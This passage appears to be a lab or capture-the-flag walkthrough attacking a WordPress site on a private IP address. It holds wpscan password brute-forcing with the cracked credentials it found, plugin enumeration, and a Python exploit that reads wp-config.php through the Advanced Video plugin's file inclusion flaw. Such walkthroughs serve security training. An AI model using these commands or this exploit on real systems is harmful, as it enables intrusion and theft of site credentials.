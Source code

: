 ```bash
wpscan --url https://192.168.220.148:12380/blogblog/ -P /usr/share/wordlists/rockyou.txt -t 50  --disable-tls-checks
```

```txt
[SUCCESS] - garry / football                              
[SUCCESS] - harry / monkey                                                    
[SUCCESS] - scott / cookie                                
[SUCCESS] - kathy / coolgirl 
```

```bash
wpscan --url https://192.168.220.148:12380/blogblog/ --disable-tls-checks --enumerate ap --plugins-detection aggressive
```



<figure><img src="../../.gitbook/assets/Pasted image 20231020172828.png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit advanced video
```

| Exploit                                                    | Path                 |
| ---------------------------------------------------------- | -------------------- |
| WordPress Plugin Advanced Video 1.0 - Local File Inclusion | php/webapps/39646.py |

#### Script

```python
import random
import urllib.request
import re
import ssl

# Ignore SSL certificate errors
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

url = "https://192.168.220.148:12380/blogblog/"  # insert HTTPS URL to WordPress

randomID = int(random.random() * 100000000000000000)

# Create a custom opener with SSL context
opener = urllib.request.build_opener(urllib.request.HTTPSHandler(context=context))

objHtml = opener.open(
    url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content = objHtml.readlines()
for line in content:
    numbers = re.findall(r'\d+', line.decode('utf-8'))
```